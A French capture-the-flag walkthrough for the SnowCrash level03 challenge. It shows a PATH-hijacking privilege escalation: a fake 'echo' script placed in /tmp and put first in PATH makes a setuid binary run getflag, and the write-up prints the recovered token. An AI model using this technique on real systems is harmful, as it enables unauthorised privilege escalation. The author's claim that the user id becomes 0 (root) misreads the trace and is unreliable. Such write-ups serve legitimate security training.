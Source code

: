 # Level03

</br></br>

## Rechercher et exécuter le fichier

```sh
level03@SnowCrash:~$ ls -al
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
level03@SnowCrash:~$ ./level03
Exploit me
```

Dans ce cas, lors de l'exécution d'un fichier avec la permission s, il est exécuté avec la permission détenue par ce fichier, donc
Lorsqu'il est exécuté, il est identique à flag03 exécuté.
En d'autres termes, vous n'avez pas besoin de trouver le mot de passe pour faire su flag03.

</br></br>

## ltrace

ltrace est l'une des commandes disponibles sous Linux. C'est un programme, pas une fonction.

ltrace est un outil qui trace et affiche le comportement des fonctions de la bibliothèque appelées par un fichier exécutable. Par conséquent, il peut être utilisé pour le débogage ou l'analyse en traçant les appels de fonction, les paramètres et les valeurs de retour dans un fichier exécutable.

```sh
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                            = 2003
geteuid()                                                                                            = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                               = 0
+++ exited (status 0) +++
```

```sh
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                        = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                        = 0
```

c'est quoi 0 pour user id?

```sh
level03@SnowCrash:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash // here!!!!!!!!!!
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

cela veut dire, on peut executer ce fichier avec user id 2003, mais user id est changé comme 0 (root)

donc, dedans, je vais mettre "getflag" cmd!
</br></br>

## /usr/bin/env

/usr/bin/env est une commande utilisée sous Unix et Linux, et trouve le chemin du programme à exécuter à partir des variables d'environnement et l'exécute.
En d'autres termes, je peux régler l'écho séparément.

En d'autres termes, mettez getflag dans echo et exécutez-le.

</br></br>

## getflag

```sh
level03@SnowCrash:~$ whereis getflag
getflag: /bin/getflag
```

</br></br>

## Créez un fichier écho et placez le chemin devant PATH

```sh
level03@SnowCrash:~$ mkdir /tmp/level03
level03@SnowCrash:~$ vim /tmp/level03/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/level03/echo
level03@SnowCrash:~$ export PATH="/tmp/level03:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
